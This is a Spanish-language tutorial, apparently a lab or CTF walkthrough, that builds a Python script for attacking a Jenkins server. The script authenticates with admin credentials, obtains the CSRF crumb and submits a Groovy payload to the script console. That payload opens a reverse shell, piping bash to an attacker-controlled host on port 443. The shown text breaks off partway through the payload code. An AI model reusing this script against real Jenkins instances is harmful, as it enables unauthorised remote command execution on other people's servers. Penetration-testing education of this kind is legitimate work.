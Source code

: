 
## 1. Preparación del Entorno y Consideraciones Iniciales

Antes de comenzar con el código, es fundamental tener en cuenta lo siguiente:

- **Herramientas utilizadas:**  
    Se usa Python junto con la librería [**requests**](https://docs.python-requests.org/en/latest/) para interactuar con Jenkins vía HTTP.
    
- **Contexto:**  
    Se tiene una instancia de Jenkins corriendo en una máquina víctima (en este ejemplo, se accede mediante la IP `172.17.0.2` en el puerto `8080`).
    
- **Objetivo:**  
    El propósito es ejecutar un payload malicioso (una reverse shell) a través de la consola de scripts de Jenkins, aprovechando la ejecución de código Groovy.
    
- **Seguridad:**  
    Se utiliza el mecanismo de **crumb** que Jenkins implementa para prevenir ataques CSRF. Este token es necesario para enviar peticiones POST válidas a Jenkins.
    

---

## 2. Importación de la Librería y Definición de Variables Básicas

El primer paso es importar la librería `requests` que se encargará de las peticiones HTTP:

```python
import requests
```

Luego se definen variables esenciales para la conexión a Jenkins:

- **jenkins_url:** La URL base de Jenkins, que incluye la dirección IP y el puerto:
    
    ```python
    jenkins_url = 'http://172.17.0.2:8080'
    ```
    
- **usuario y password:** Las credenciales necesarias para autenticarse en Jenkins:
    
    ```python
    usuario = 'admin'
    password = 'rockyou'
    ```
    

---

## 3. Definición del Payload Groovy

Se crea una variable llamada `groovy_payload` en la que se define un bloque de código Groovy. Este código se utiliza para ejecutar una reverse shell. En el ejemplo se define de la siguiente forma:

```python
groovy_payload = """ 
String host="192.168.0.109";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
```